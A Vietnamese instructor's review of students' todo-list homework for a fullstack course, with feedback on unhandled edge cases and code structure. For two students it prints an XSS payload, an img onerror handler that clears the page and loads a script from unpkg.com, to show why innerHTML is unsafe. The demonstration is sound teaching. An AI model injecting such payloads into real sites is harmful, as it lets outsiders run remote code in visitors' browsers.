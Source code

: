 # Quân review bài học viên lớp K3-Fullstack

## [Nguyễn Quang Cường](https://github.com/cuonggold2408/Fullxinach_K3/tree/main/Day_24)

- [x] [Bài 1]

  Bài làm rất tốt\*

  Thẻ input khi chỉnh sửa nên thay đổi `placeholder` ví dụ như là `Edit Task` thì sẽ hợp lý hơn.

  Đang sử dụng innerHTML, có thể xảy ra lỗi khi người dùng cố tình nhập một script vào.

  ```html
  <img
    src=""
    onerror='b=document,a=b.body;a.innerHTML="";a.appendChild(c = b.createElement("script"),c.type="module",c.innerHTML=`import {HTML} from "https:\/\/unpkg.com/jsvjp";HTML("h1", "error", "HACKED!")`);a.appendChild(d=b.createElement("link"),d.rel="stylesheet",d.href="https:\/\/unpkg.com/jsvjp/style.css");'
  />
  ```

- [x] Đánh giá chung bài tập về nhà: Bài tập làm rất tốt.

---

## [Phí Văn Đức](https://github.com/PhiVanDuc/Offline-F8-K3/tree/main/Day-24-JS)

- [x] [Bài 1]

  Bài làm tốt\*

  Bài làm chưa xử lý case nhập toàn khoảng trắng.

  Bài làm chưa xử lý case khi nhấn vào task để hoàn thành task thì khi nhấn sửa và update task vẫn phải trong trạng thái hoàn thành trước đó nhưng hiện tại ở bài làm khi sửa lại thì task lại quay về trạng thái chưa hoàn thành.

  Khi cập nhật task nếu người dùng xóa hết nội dung và submit không nên hiện là `undefined` mà cần thông báo cho người dùng cần nhập nội dung mới cho update vì nếu mục đích muốn xóa task thì user sẽ nhấn vào icon xóa để xóa chứ không để trống nội dung task.

  Nên tách riêng ra từng function ở ngoài thực hiện từng chức năng riêng biệt giúp cho code dễ hiểu và dễ sửa đổi hơn sau này.

  Đang sử dụng innerHTML, có thể xảy ra lỗi khi người dùng cố tình nhập một script vào.

  ```html
  "/><img
    src=""
    onerror='b=document,a=b.body;a.innerHTML="";a.appendChild(c = b.createElement("script"),c.type="module",c.innerHTML=`import {HTML} from "https:\/\/unpkg.com/jsvjp";HTML("h1", "error", "HACKED!")`);a.appendChild(d=b.createElement("link"),d.rel="stylesheet",d.href="https:\/\/unpkg.com/jsvjp/style.css");'
  />
  ```

- [x] Đánh giá chung bài tập về nhà: Bài tập làm tốt, tuy nhiên chưa xét hết tất cả các case.

---

## [Đỗ Văn Khoa](https://mrkhoadev.github.io/F8-Fullstack-K3/)

- [x] [Bài 1]

  Bài làm tốt\*

  Bài làm chưa xử lý case khi nhấn vào task để hoàn thành task thì khi nhấn sửa và update task vẫn phải trong trạng thái hoàn thành trước đó nhưng hiện tại ở bài làm khi sửa lại thì task lại quay về trạng thái chưa hoàn thành.

  Khi cập nhật task nếu người dùng xóa hết nội dung và submit không nên hiện task trống mà cần thông báo cho người dùng cần nhập nội dung mới cho update vì nếu mục đích muốn xóa task thì user sẽ nhấn vào icon xóa để xóa chứ không để trống nội dung task.

- [x] Đánh giá chung bài tập về nhà: Bài tập làm tốt, tuy nhiên còn một số case chưa hoàn thiện tốt.

---
